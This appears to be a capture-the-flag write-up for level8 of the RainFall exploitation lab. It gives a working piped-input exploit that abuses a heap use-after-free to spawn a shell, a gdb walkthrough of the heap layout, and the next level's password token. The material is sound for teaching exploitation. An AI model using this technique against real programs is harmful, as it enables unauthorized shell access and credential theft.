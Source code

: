 # Walkthrough

## Solution

```
(python -c "print ('auth '); print ('reset'); print('service0123456789012345'); print('login')"; cat) | ./level8
(nil), (nil) 
0x804a008, (nil) 
0x804a008, (nil) 
0x804a008, 0x804a018 
whoami
level9
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## Explanation

### Execution

```
level8@RainFall:~$ ./level8 
(nil), (nil) 
hello
(nil), (nil) 
bonjour
(nil), (nil) 
^C
level8@RainFall:~$ ./level8 hello world
(nil), (nil) 
bon
(nil), (nil) 
^C
```
-> The programs prints "nil" twice and then waits for input in a loop.

### Disassembly

```
info var
0x08049aac  auth
0x08049ab0  service

info functions
0x08048540  frame_dummy
0x08048564  main
```
You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  


### Steps

(gdb) run
Starting program: /home/user/level8/level8 
(nil), (nil) 
> "auth " (ctrl+d and not enter, so that we don't have the \n in the input)
Breakpoint 1, 0x080486b5 in main ()
1: x/3i $pc
=> 0x80486b5 <main+337>:	lea    0x20(%esp),%eax
   0x80486b9 <main+341>:	mov    %eax,%edx
   0x80486bb <main+343>:	mov    $0x804882d,%eax
(gdb) c
Continuing.
0x804a008, (nil) 
> reset (ctrl+d and not enter, so that we don't have the \n in the input)
Breakpoint 1, 0x080486b5 in main ()
1: x/3i $pc
=> 0x80486b5 <main+337>:	lea    0x20(%esp),%eax
   0x80486b9 <main+341>:	mov    %eax,%edx
   0x80486bb <main+343>:	mov    $0x804882d,%eax
(gdb) c
Continuing.
0x804a008, (nil) 
serviceAAAAAAAAAAAAAAAAA (17 * 'A')
Breakpoint 1, 0x080486b5 in main ()
1: x/3i $pc
=> 0x80486b5 <main+337>:	lea    0x20(%esp),%eax
   0x80486b9 <main+341>:	mov    %eax,%edx
   0x80486bb <main+343>:	mov    $0x804882d,%eax
(gdb) c
Continuing.
0x804a008, 0x804a018 
login
Breakpoint 1, 0x080486b5 in main ()
1: x/3i $pc
=> 0x80486b5 <main+337>:	lea    0x20(%esp),%eax
   0x80486b9 <main+341>:	mov    %eax,%edx
   0x80486bb <main+343>:	mov    $0x804882d,%eax
(gdb) i var auth
All variables matching regular expression "auth":

Non-debugging symbols:
0x08049aac  auth
0xb7fd4314  _null_auth
0xb7fd4a90  svcauthdes_stats
(gdb) x/2wx 0x08049aac
0x8049aac <auth>:	0x0804a008	0x0804a018
(gdb) x/16wx 0x0804a008
0x804a008:	0x00000000	0x00000000	0x00000000	0x00000019
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a028:	0x00000041	0x00020fd9	0x00000000	0x00000000       // 0x804a028 is not at 0 anymore, so we can launch the shell
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) c
Continuing.
$ pwd
/home/user/level8


- Final Command

(python -c "print ('auth '); print ('reset'); print('service0123456789012345'); print('login')"; cat) | ./level8